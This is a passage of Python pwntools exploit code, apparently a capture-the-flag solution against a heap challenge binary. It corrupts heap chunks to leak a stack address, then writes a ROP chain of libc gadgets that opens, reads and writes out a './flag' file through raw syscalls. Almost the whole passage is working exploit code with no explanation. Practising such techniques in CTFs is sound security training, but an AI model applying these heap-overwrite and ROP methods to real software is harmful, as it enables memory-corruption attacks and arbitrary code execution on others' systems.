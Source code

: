 ```python 
    sl(payload)

    my_dele(heap4)
    '''


    '''
    my_edit(heap2, 0x100000004)
    payload = flat('a' * 0x20, 0, 0x21, env, 0x1000)
    sl(payload)
    my_show(env)
    ru("ontent: ")
    stack = u64(re(6, 2).ljust(8, b'\x00'))
    print(hex(stack))

    stack = stack - 0x140 

    my_new(0x30)
    heap4 = heap3

    my_edit(heap4, 0x100000004)
    sl(flat('./flag\x00'.ljust(0x500, 'v'), 0, 0x21, stack, 0x1000))

    poprax = 0x4a550 + LIBC
    poprdi = 0x26b72 + LIBC
    poprsi = 0x27529 + LIBC
    poprdx = 0x11c371 + LIBC
    syscall = 0x66229 + LIBC

    my_edit(stack, 0x100000004)
    sl(flat(
        # open("./flag")
        poprax, 2, 
        poprdi, heap4, 
        poprsi, 0, 
        poprdx, 0, 0, 
        syscall, 
        # read(3, buf, 0x100)
        poprax, 0, 
        poprdi, 3, 
        poprsi, heap4, 
        poprdx, 0x100, 0, 
        syscall, 
        # write(1, buf, 0x100)
        poprax, 1, 
        poprdi, 1, 
        poprsi, heap4, 
        poprdx, 0x100, 0, 
        syscall
        ))

    '''


context.os='linux'

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

slog = {'name' : 111}
local = int(sys.argv[1])

if arch==64:
```
